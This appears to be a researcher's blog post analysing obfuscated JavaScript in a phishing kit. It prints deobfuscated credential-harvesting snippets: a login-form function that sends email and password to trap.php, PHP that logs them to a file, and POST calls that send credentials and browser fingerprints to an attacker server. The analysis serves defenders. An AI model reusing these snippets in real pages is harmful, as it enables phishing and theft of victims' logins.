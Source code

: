 ```yaml
---
layout: default
title: Obfuscated JavaScript in Phishing Kits
image: /images/stock/skull_green.jpg
categories: blog
tags: blog phishing scams passwords code-analysis
date: 2025-05-16
permalink: /blog/:year/:month/:day/:title/
description: While sorting phishing kits this morning, I discovered a clever use of JavaScript to hide an infostealer. 
---
```


While sorting phishing kits this morning, I came across an interesting bit of JavaScaript. The code was being used to mask the infostealer attached to the phishing kit's login form. 

The use of obfuscation isn't new, and the idea that a criminal would attempt to hide the code used to capture victim input is a given (considering the nature of the research I'm doing). Still, I was still intrigued by the level of effort made here, and  thought it worth exploring.

## The Code:
Everything revolves around the ```ajaxget()``` command which is attached to the phishing kit's login form. The phishing kit itself is targeting a global supply chain organization, which focuses on B2B development, and harvesting login credentials. Later, these compromised credentials can be curated or enriched with other data and sold.

<hr>

With Obfuscation:
```
[...]
function ajaxget()
{
    var _0x532663 = _0x5d39,
        _0x2b271f = new URLSearchParams();
    _0x2b271f[_0x532663(0x18a)]('name', document[_0x532663(0x18f) [...cut4length...]
    var _0x4f6ca7 = new XMLHttpRequest();
    return _0x4f6ca7[_0x532663(0x180)]  [...cut4length...]
    {
        var _0x54b84e = _0x532663;
        console[_0x54b84e(0x181)](this['response']);
    }, _0x4f6ca7[_0x532663(0x18c)](), ![];
}
[...]

```
<hr>

No Obfuscation:
```
function ajaxget() {
  let params = new URLSearchParams();
  params.append('name', document.getElementById('email').value);
  params.append('password', document.getElementById('password').value);

  let xhr = new XMLHttpRequest();
  xhr.open('GET', 'trap.php?' + params.toString());
  xhr.onload = function() {
    console.log(this.response);
  };
  xhr.send();
  return false;
}
```
<hr>

## Layered Complexity:
To give an idea as to what's happening, the JavaScript is building a ```?email=``` string using all of the flagged parameters, and passing them over to ```trap.php```. It is important to know that ```trap.php``` can be hosted locally or remotely. In this case, the criminal behind the attack I'm investigating chose to do both. 

There are three blocks within the obfuscated JavaScript code, which I won't reproduce here for obvious reasons. All three blocks are essentially formatted in similar fashion, where the obfuscation is designed to mask functionality from passive viewing. 

The attack follows a cycle, where a retry limit (```rc```) is set, and the user is promoted for a username/password combination until the retry limit is reached. Once that happens, they are directed to the real domain and the attack concludes. 


**Block 1:**   
Grabs the login information (email/password) and sends it over to ```trap.php```, which records the victim's IP address, login details, date, timestamp, and writes it to ```rich.txt```
  
```
$file=fopen("rich.txt", "a");
fwrite($file, "$Name\n$Pass\n$ip\n$date$time");
fwrite($file, "\n");
fwrite($file, "\n");
fclose($file);
```

**Block 2:**  
Performs a loop presenting a "wrong password" error, while taking the login form details and processing them via ```POST``` to a server controlled by the attacker. In this case, the ```POST``` was directed to ```ps.php``` on the remote server, which is just a renamed ```trap.php``` file.  
```  
[...]  
    $.ajax({
      dataType:   'JSON',
      url:        fUrl,
      type:       'POST',
      data:       data,
      beforeSend: () => $('#pr').html('Verifying...'),
      complete:   () => {  
[...]    
```

**Block 3:**  
Does a fingerprint of the victim's operating system, login details, browser data, and IP address (via api.ipify.org) and passes this data over to the remote server via ```POST```.

```    
[...]
$.post(url, {
    TXT_01: email,
    TXT_02: pass,
    TXT_03: ip,
    TXT_04: os,
    TXT_05: browser  
[...]  
```

## Hidden in Plain Sight:

Again, using obfuscation isn't a new technique. Criminals have been doing so for a long time, as it can help increase the lifespan of a given phishing attack, or keep things hidden from passive viewing or scanning.

The interesting thing for me is that whoever developed this phishing kit used three layers of array-based string obfuscation in order to slow / stop anyone from attempting to reverse-engineer the attack.

Unfortunately for the criminal, and fortunately for the rest of us, the attack staging exposed the phishing kit's source code (via .zip file). This led to the take down of the original phishing website, as well as the external domains used to host the information sent via ```POST```.

Overall, this was an interesting kit / technique to explore, but I think I'd rather let someone else do the code analysis. My head is swimming in JavaScript now. 